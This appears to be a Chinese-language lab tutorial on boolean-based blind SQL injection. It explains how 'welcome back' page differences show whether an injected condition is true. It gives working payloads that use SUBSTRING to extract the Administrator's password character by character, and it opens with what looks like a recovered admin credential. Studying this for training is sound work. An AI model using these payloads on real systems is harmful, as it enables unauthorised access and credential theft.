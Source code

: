 ```
administrator
6sgr8b2xbel1jmpx6avk
```

### 盲注

当应用程序容易受到 SQL 注入的攻击，但其 HTTP 响应不包含相关 **SQL 查询的结果**或任何**数据库错误**的详细信息时，就会发生 SQL 盲注

#### 布尔盲注

##### 通过触发条件响应

假设发送了两个请求，如下：

**简单来说：就是存在两个不同的页面或响应，通过布尔表达式来判断是否为true**

```
xyz' AND '1'='1
xyz' AND '1'='2
```

因为注入的 `AND '1'='1` 条件为 true。因此，将**会显示**`welcome back`信息

`AND '1'='2`条件为false，所以**不会显示出**`welcome back`信息

其实，这里利用页面返回信息不同，确定任何单个注入条件的答案，并一次提取一个数据

例如，假设有一个名为 `Users` 的表，其中包含 `Username` 和 `Password` 列，以及一个名为 `Administrator` 的用户

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

这将返回 `Welcome back` 消息，指示注入的条件为 true，因此密码的第一个字符大于 `m`

再次输入

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

未返回 `Welcome back` 消息，条件为false，所以密码的第一个字母不大于`t`

最后输入

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

返回 `Welcome back` 消息，条件为true，密码的第一个字母为`s`

**题目：利用布尔盲注，找出管理员的密码**

正常页面，返回 `Welcome back` 消息

![image-20250501211415895](./img/image-20250501211415895.png)